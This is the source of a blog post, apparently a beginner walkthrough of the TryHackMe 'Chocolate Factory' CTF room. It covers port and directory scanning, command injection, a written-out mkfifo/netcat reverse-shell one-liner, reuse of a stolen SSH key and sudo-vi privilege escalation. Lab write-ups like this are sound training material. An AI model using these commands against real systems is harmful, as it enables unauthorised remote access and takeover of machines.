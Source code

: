 ```yaml
---
layout: post
title: Tryhackme Chocolate Factory Walkthrough 
date: 2021-02-03
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: titlephoto1.jpg # Add image post (optional)
tags: [Tryhackme, CTF] # add tag
---
```



dljkfajsdlk
Today’s blog post — I will give a walk-through on room called, “Chocolate Factory”. This is perfect practice for Beginners. 
Let’s get started. Firstly Deploy the machine and wait a minute for getting the IP address to start.

![init]({{site.baseurl}}/assets/img/cholocate.tryhackme/init.png)

## Enumeration
 
     sudo nmap -sV -sC -v <ip>
    
     -sV: Probe open ports to determine service/version info 
     -sC: equivalent to --script=default 
     -v: verbose mode 
     
The result looks like,<br />

  
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/init1.png)
   

There can see FTP running on port 21, ssh running on port 22, and webserver in port 80 Then try Open browser enter IP address default web server running in port 80 
  
  ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/init2.png)

I trying SQL injection but nothing changes, So Check the directories using the gobuster tool.

    gobuser dir -u <ip> -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt
  
OK.. Here see home.php <br />
 ![nmap]({{site.baseurl}}/assets/img/cholocate.tryhackme/command.ls.png)  
  Try system commands then reverse connection command 
  
     'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> <port> >/tmp/f'
 
  Remember one thing disable ufw firewall before the listening netcat. <br />
  
     nc -lvnp <port> 
    -l listen mode, for inbound connects 
    -v verbose 
    -n numeric-only IP addresses, no DNS 
    -p local port number
    
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/reverse2.png) 
   
   Use python3 shell for better interaction <br />
      
      python3 -c 'import pty; pty.spawn("/bin/sh")' 
      
   Then list out the file and read the file..
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/cat.key.png)
  
   Read validate.php
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/validateuser.png)
   
   Change the user to charlie <br/>
   /home/charlie and list all files <br />
   Found RSA key in this folder called teleport and I copied it to my machine and saved that under the name id_rsa.change the permission.
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/id_rsa.png) <br />
   
    chmod 600 filename 
    
   Login with ssh charlie user
    
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/sshcharlie.png) <br />
  Read the user key <br />
  ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userflag.png) 
   
 ## Privilege Escalation
 <br />
  Check the current user privilege 
   
     sudo -l 
    
 <br/>
 ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/userprivilege.png) <br />
   Get root permission using vi.<br />
   Use this website [GTFOBINS](http://gtfobins.github.io/) <br />
   Search vi get result 
   
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/gtbl.png) <br />
   ![reverseconnection]({{site.baseurl}}/assets/img/cholocate.tryhackme/root.png) <br />
   Copy the command and paste into the terminal and hit enter <br />
   Now root user <br >
   Change charlie to root <br />
   
    su root
   
   
   List the files and run python file, enter the key 
   ![success]({{site.baseurl}}/assets/img/cholocate.tryhackme/root3.png) <br />
   DONE !!!
  

hello
